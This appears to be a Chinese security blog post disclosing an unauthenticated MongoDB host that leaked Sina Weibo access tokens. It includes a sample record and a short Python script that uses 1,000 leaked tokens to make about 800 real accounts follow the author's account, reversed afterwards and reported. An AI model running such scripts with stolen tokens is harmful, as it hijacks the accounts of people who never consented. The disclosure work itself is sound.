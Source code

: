 ```yaml
---
layout: post
title: Mongodb未授权访问漏洞之某主机泄露新浪微博accessToken
---
```


## {{ page.title }}


<p class="date">{{ page.date | date_to_string }} - Evi1m0</p>

### 背景

在前段时间邪红F1,2,4发出 [《Mongodb unauthorized access vulnerability global probing report》](http://www.hackersoul.com/post/mongodb_unauthorized_access_vulnerability_global_probing_report.html) 后，我们对这些受影响的列表进行了简单的数据分析，其中发现了一个有趣的主机。

### 数据泄露

其中这台Mongodb数据主机存储着大量的微信公众号信息，新浪微博授权信息等敏感信息，其中我们对新浪微博授权信息进行简单的测试。

### 测试过程

筛选1000条存储的用户新浪微博的授权数据，其中格式为：

    {
        "_modified" : ISODate("2014-09-14T06:30:33.718Z"),
        "_created" : ISODate("2014-09-14T06:30:33.718Z"),
        "uid" : "163****265",
        "url" : "u/163****265",
        "name" : "猫****",
        "screenName" : "猫****",
        "accessToken" : "2.00LniemB******d10ba02ef5oEMJTB",
        "description" : "",
        "verified" : false,
        "logo" : "http://tp2.sinaimg.cn/1635102265/50/4000*****04/1",
        "logoLarge" : "http://tp2.sinaimg.cn/1635102265/180/4000*****04/1",
        "type" : "normal",
        "_id" : "14872d****48a87"
    }
    
其中数据泄露新浪微博用户授权成功后的accessToken值，将数据以JSON进行导出后使用Python进行处理，提取出1000条accessToken方便进行测试。

[微博API](http://open.weibo.com/wiki/%E5%BE%AE%E5%8D%9AAPI)：

- [statuses/update 发布一条微博信息](http://open.weibo.com/wiki/2/statuses/update)
- [statuses/user_timeline/ids 获取用户发布的微博的ID](http://open.weibo.com/wiki/2/statuses/user_timeline/ids)
- [statuses/destroy 根据微博ID删除指定微博](http://open.weibo.com/wiki/2/statuses/destroy)
- [friendships/create 关注一个用户](http://open.weibo.com/wiki/2/friendships/create)
- [More](http://open.weibo.com/wiki/%E5%BE%AE%E5%8D%9AAPI)

之后我们使用关注用户API进行简单的测试，编写脚本批量的利用泄露的accessToken值进行关注用户：

    #!/usr/bin/env python
    # coding=utf8
    # author=evi1m0#ff0000team

    import requests

    f = open('./accessToken.txt','r')
    flag = 1
    for i in f:
        api_url = 'https://api.weibo.com/2/friendships/create.json'
        post = {"uid":"5238604657", "access_token":i.split()}
        requests.post(api_url, data=post)
        flag+=1
        print '[*] ' + str(flag) + ': ' + api_url
        print post
        print
        
其中uid为关注用户的UID，遍历./accessToken.txt中的accessToken进行请求，于是不一会儿的功夫我们测试微博收到了新增800多个粉丝的消息，后面我们又利用取消关注API进行了取消操作。

### 状态

我们没有对这些数据进行恶意利用，目前已提交给官方进行及时修复：）
